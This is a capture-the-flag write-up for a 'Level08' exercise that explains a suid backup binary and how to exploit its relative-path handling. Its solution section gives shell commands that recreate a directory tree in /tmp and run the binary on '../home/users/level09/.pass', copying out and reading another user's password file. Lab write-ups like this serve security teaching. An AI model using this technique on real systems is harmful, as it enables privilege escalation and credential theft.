 # Level08

## Overview

* There is one file in our home, ```level08```, belonging to ```level09``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the disassembled code, but we will describe its behaviour:
	* `level08` takes a `filename` as parameter and does the following:
		1. In `./backups/.log` it writes `LOG: Starting back up: filename`
		2. Open `filename`
		3. Open `./backups/filename`
		4. Write the content of `filename` in `./backups/filename`
		5. In `./backups/.log` it writes `LOG: Finished back up filename`

## Solution
 * We can exploit the program comportement against him, by making him do a backup of `.pass` which we will be able to read.

 * In `/tmp` we want to reproduce the folder architecture of `.pass`

```sh
mkdir -p /tmp/home/users/level09
```

 * We then want to create the directory `backups`

```sh
mkdir -p /tmp/backups
chmod 777 /tmp/backups
```

 * Now we can execute level08 from `/tmp`:

 ```sh
 cd /tmp
 ~/level08 ../home/users/level09/.pass
 ```

 * And here we get our pass:

 ```sh
cat ./backups/../home/users/level09/.pass
 ```

 * Here is  the same thing as one command for the correction:

```sh
cd /tmp ; mkdir -p /home/users/level09 ; mkdir -p backups ; chmod 777 backups/ ; ~/level08 ../home/users/level09/.pass ; cat ./backups/../home/users/level09/.pass
```
